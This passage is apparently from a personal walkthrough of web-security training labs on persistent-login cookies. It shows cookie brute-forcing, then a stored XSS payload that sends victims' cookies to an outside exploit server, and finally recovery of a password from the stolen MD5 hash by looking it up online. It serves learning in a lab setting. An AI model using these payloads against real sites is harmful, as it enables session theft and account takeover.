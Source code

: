 Delete the session cookie value, and start the attack.

There I see that I got a `200 OK` and a `302 Found` response, and the `200` was for the password `peter`, so I know that this is how the cookie is created, and now instead of the prefix `wiener` and the url `/id=wiener` I add `carlos` and in the list, I add all the password candidates and start the attack.

Now, I see that one response has a `200 OK` with the payload `Y2FybG9zOmQ1YWExNzI5YzhjMjUzZTVkOTE3YTUyNjQ4NTVlYWI4`, I open that in the browser, and the lab is solved.

-------
### Lab.2 - Offline Password Cracking

Using techniques such as XSS an attacker can steal another user's `remember me` cookie and see how the cookie is constructed from that.

There are even cases when it can be possible to get the password in cleartext from a cookie, even if it is hashed, because hashed versions of well-known passwords are stored online.

The goal of the lab is to obtain the password for `carlos`, and login to carlos's account page, and delete the account. The lab also has a XSS vulnerability in the comment section. I can login with my credentials `wiener:peter`.

After I login with my credentials, with the `Remember Me` checked, I analyze the response in Burp. There I see the `stay-logged-in` cookie, which when I inspect in the Burp Inspector, I see that when decoded from Base64, it is: `wiener:51dc30ddc473d43a6011e9ebba6ca770`.

So, this tells that the it is being `username:MD5 hashed password` has been encoded in Base64.

I confirm the XSS vulnerability by posting a comment: `<script>alert(1);</script>` and when getting back to the comments I see the alert.

![Pasted_image_20250122160019](https://github.com/user-attachments/assets/10b1e2de-77fe-4f72-a811-e6088c70eb2e)

I add this JS code to the comment: `<script>document.location='https://exploit-0a55000f0465d50182b3b1a001c7006d.exploit-server.net/exploit/'+document.cookie</script>` pointing to the exploit server.

And then in the exploit server, I access the logs, and I see a GET request to the exploit server.

```http
GET /exploit/secret=1XOZZSt0TKx8n0bbmGovsXmTfOA9qWPw;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Chrome/143664
```

Here I have the `stay-logged-in` cookie, which after decoding from Base64 from CyberChef I got: `carlos:26323c16d5f4dabff3bb136f2460a943`.

Now, since many MD5 hashes are already decrypted online, I will just search for this MD5 on Google, and I see that the password is `onceuponatime`.

I used that to login and delete the account, and the lab is solved.

------

## Resetting Passwords Using a URL

Usually websites send a URL to users when they want to reset their password, sending them to a password reset page.
